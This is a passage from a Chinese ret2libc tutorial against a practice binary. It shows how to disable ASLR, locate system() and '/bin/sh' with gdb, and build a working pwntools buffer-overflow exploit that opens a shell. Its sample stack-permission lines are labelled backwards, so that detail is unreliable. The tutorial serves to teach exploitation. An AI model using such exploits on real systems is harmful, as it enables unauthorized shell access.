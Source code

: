 打开DEP，即不带`-z execstack`参数，但依然关闭stack protector和ASLR：

```
 echo 0 > /proc/sys/kernel/randomize_va_space
 gcc -fno-stack-protector -o level2 level2.c
```

由于开启了DEP，不能使用硬编码栈上shellcode地址覆盖返回地址的方法。如果你通过`sudo cat /proc/[pid]/maps`查看，你会发现关闭DEP的情况下stack是rwx的，开启DEP时的stack却是rw的。

```
关闭DEP：bffdf000-c0000000 rw-p 00000000 00:00 0 [stack]
开启DEP：bffdf000-c0000000 rwxp 00000000 00:00 0 [stack]
```

libc.so里保存了大量可利用的函数，让程序执行system("/bin/sh")的话，也可以获取到shell。接下来就是如何得到system()这个函数的地址以及"/bin/sh"这个字符串的地址。

如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含"/bin/sh"这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和"/bin/sh"字符串的地址。

```
 $ gdb ./level2
 GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
 ...
 (gdb) break main
 Breakpoint 1 at 0x8048430
 (gdb) run
 Starting program: /home/mzheng/level2

 Breakpoint 1, 0x08048430 in main ()
 (gdb) print system
 $1 = {<text variable, no debug info>} 0xb7e5f460 <system>
 (gdb) print __libc_start_main
 $2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
 (gdb) find 0xb7e393f0, +2200000, "/bin/sh"
 0xb7f81ff8
 warning: Unable to access target memory at 0xb7fc8500, halting search.
 1 pattern found.
 (gdb) x/s 0xb7f81ff8
 0xb7f81ff8: "/bin/sh"
```

首先在main函数上下一个断点，然后执行程序，这样程序会加载libc.so到内存中，然后就可以通过"print system"这个命令来获取system函数在内存中的位置，随后可以通过" print __libc_start_main"这个命令来获取libc.so在内存中的起始位置，接下来通过find命令来查找"/bin/sh"这个字符串。这样就得到了system的地址0xb7e5f460以及"/bin/sh"的地址0xb7f81ff8。

**Exploit**

```
 #!/usr/bin/env python
 from pwn import *
 p = process('./level2')
 #p = remote('127.0.0.1',10002)
 ret = 0xdeadbeef
 systemaddr=0xb7e5f460
 binshaddr=0xb7f81ff8
 payload = 'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)
 p.send(payload)
 p.interactive()
```
